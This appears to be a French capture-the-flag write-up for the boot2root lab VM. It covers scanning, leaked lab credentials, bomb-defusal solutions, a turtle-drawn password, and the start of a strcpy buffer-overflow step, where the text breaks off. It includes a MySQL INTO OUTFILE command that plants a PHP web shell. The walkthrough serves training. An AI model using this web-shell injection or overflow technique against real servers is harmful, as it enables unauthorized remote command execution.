 #Etape 1:
Pour récuperer l'adresse IP de la VM on lance un nmap pour scanner le réseau
```bash
nmap -A 172.16.96.1/24
```
Quand nous lancon boot2root, la vm ouvre un port https.
Avec un dirbuster nous avous a trouver que le path /forum et /webmail exist.
Dans le forum nous trouvons des logs qui nous permette de leaker le mot de passe de lmezard:!q\]Ej?*5K5cy*AJ
Avec l'email de lmezard nous arrivons a nous connecter a sa boite mail ou un mail avec les identifiant root de mysql sont present root:Fg-'kKXBj87E:aJ$
Dans mysql nous pouvont ecrire dans le system avec un commande du style OUTFILE.
Nous pouvons trouver l'arborescence de mylittleforum sur son github. Finalement il semble que le dossier templates_c soit accessible en ecriture.
On peut upload un shell avec cette command.
SELECT "<?php system($_GET['cmd']) ?>" INTO OUTFILE "/var/www/forum/templates_c/shell.php"
nous pouvons telecharger les identifiant du ftp dans /home/LOOKATME
lmezard
G!@M6f4Eatau{sF"

#Etape2:
Avec ces identifiant nous pouvont ensuite telecharger une tarball fun
Cette tarball contenait un dossier ft_fun qui conténer a son tour des fichier pcap.
Dans chaque fichier pcap il y avait un comment qui préciser l'order de ce fichier par rapport au autre. 
Une fois reconstituer ces fichier formée un code source C qui une fois compiler demander de hasher un mot de passe.
Un fois hasher, le resultat consituer le mot de passe de laurie.
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
#Etape3:
Pour récuper le mot de passe de thor nous devons desarmorcer des bombe succésive.
Pour desamorcé la premiere phase il suffit de rentré la chaine
Public speaking is very easy.

Pour la deuxieme phase, il suffit juste de rentré une suite de nombre dont chaque element est le resultat de sa position+1 * le nombre precedent
La suite commence par 1

1 2 6 24 120 720

La troisieme phase est une fonction qui attend trois argument de type int, char, int.
Le premier int est une sousfonction qui compare le deuxieme est troisieme argument.
C'est une jump table.
Au total voici les solution:
0 q 777
1 b 214
2 b 755
3 k 251
4 o 160
5 t 458
6 v 780
7 b 524

Pour la quatrieme phase, il suffit de trouver le nombre qui quand on le rentre dans la fonction fibonacci le resultat est 55 en decimale.
Ce nombre est 9.

Pour la cinquieme phase, il faut reussit a traduire l'input saisie vers "giants" avec l'encodage suivant "isrveawhobpnutfg".
Equivalemnt a xlatb en assembler.
Le code fait juste un bitwise and sur les character. Il y a donc plusieur solution.

Pour la sixième phase, La bombe regarde d'abort si dans la sequence il n'y a pas de doublon est que les nombre sont entre 1-6.
En fonction des nombre il arrange une liste chainer dont les indice des noeuds sont egaux a ceux des nombre rentré.
Les noeuds de la link list sont comme suit:

struct Node {
	int number;
	int order;
	struct Node* next;
};

Il itere dans la suite pour voir les number sont en ordre décroissant. Si il le sont la bombe peux etres desamorcé ;).

0x804b26c <node1>:      0x000000fd      0x00000001      0x0804b260
0x804b260 <node2>:      0x000002d5      0x00000002      0x0804b254
0x804b254 <node3>:      0x0000012d      0x00000003      0x0804b248
0x804b248 <node4>:      0x000003e5      0x00000004      0x0804b23c
0x804b23c <node5>:      0x000000d4      0x00000005      0x0804b230
0x804b230 <node6>:      0x000001b0      0x00000006      0x00000000

4 2 6 3 1 5

A noter que dans cette exercise il y a une partie cacher avec des arbre binaire.
il suffit de rajouter austinpowers a la quatrieme phase

9 austinpowers 

Le dernier exercice utilise cette arbre binaire.
Pour desamorcé la phase cache il faut rentré le nombre 1001

                         36         
              /                      \
             8                        50
         /       \                /        \
        6         22             45         107
       / \       /  \           /  \       /   \
      1   7     20   35        40   47    99   1001

Apres plusieur essaie, et une visite sur le slack qui nous informe qu'il faut swap les deux dernier character, le mot de passe est le suivant:
thor
Publicspeakingisveryeasy.126241207201b2149opekmq426135

#Etape4:
On a un fichier turtle qui donne des indications pour la librairie turtle de python.
On fait un script python pour nettoyer le fichier et on passe les instructions au module turtle.py.
Sa nous affiche un mot de passe "SLASH" sous forme de dessin que l'on doit hasher en md5
```bash
echo -n "SLASH" | md5
646da671ca01bb5d84dbb5fb2238dc8e
```

#Etape5:
Nous pouvons voir que sur la machine l'ASLR est desactivé.
cat /proc/sys/kernel/randomize_va_space -> $00
La stack est executable.
readelf -a exploit_me | grep GNU_STACK -> RWE
Le programe copy argv[1] avec strcpy. Il suffit donc de faire un shellcode sans null byt\
e.
